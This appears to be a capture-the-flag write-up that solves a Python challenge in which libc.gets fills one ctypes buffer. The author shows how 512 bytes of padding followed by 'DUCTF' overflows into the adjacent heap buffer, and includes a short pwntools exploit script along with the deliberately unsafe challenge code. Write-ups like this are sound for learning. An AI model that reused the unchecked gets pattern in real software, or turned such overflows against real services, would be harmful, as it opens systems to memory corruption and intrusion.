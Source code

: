 # babypywn

For this challenge we are given the source code for a python file called babypwn.py running on the remote server.

```
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

From a first glance this looked something to do with buffer overflow so I ran it locally and used the addressof() and saw the buffers are 512 bytes apart indicating they are alligned one after another.


![memory addresses](memory.PNG)


Looking at the Memory addresses of the buffers I thought they would grow lower as is on the stack.
But after some research I learned that python objects are placed on the heap hence the addressing grows upwards. This means we could overflow from the memory of buf1 into buf2.  


  ![stack image](https://courses.engr.illinois.edu/cs225/fa2022/assets/notes/stack_heap_memory/memory_layout.png)

Lets have a look at that line libc.gets(buf1), some googling reveals what it is and provides a description. 
![gets man page](gets.PNG)
The last line "no check for buffer overrun is performed" is music to our ears.

We can use perl to generate a buffer 512 bytes long "perl -E 'say "a" x 512' appending 'DUCTF' to the end should cause the flag to be outputed.

We can then use pwn tools to send our buffer and get the flag.

```
from pwn import *
c = remote('0.0.0.0', 8080)
c.sendline(b'aaaaaaaaaa...'+ b'DUCTF')
print(c.recvline().decode())
```